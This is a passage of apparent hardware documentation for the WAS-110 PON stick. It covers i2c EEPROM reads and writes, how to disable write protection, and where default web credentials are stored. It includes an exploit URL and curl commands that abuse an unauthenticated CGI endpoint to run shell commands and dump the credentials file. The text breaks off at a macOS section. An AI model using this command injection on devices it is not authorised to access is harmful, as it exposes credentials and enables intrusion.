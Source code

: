 ``` sh
i2cget -fy 0 0x51 0x0
```

### Write

#### Physical EEPROM

!!! warning "Incorrect writes to the EEPROM can prevent the host from recognizing the WAS-110"

The EEPROM is write protected and can be disabled by writing `12345678` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x12 0x34 0x56 0x78 i
```

To re-enable write protection, write `00000000` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x00 0x00 0x00 0x00 i
```

## Default Credentials

### Web credentials

The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning "Passwords have a maximum length of 16 characters which are not restricted by the web UI"

??? bug "Exploit to disclose the default web credentials"
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command(s) to download `param_ct.xml` to a temporary directory.

    === ":material-microsoft: Windows"


        __Command Prompt__

        ``` sh
        dir %Temp% & curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

        __Powershell / Windows Terminal__

        ``` sh
        dir %Temp% ; curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":simple-apple: macOS"
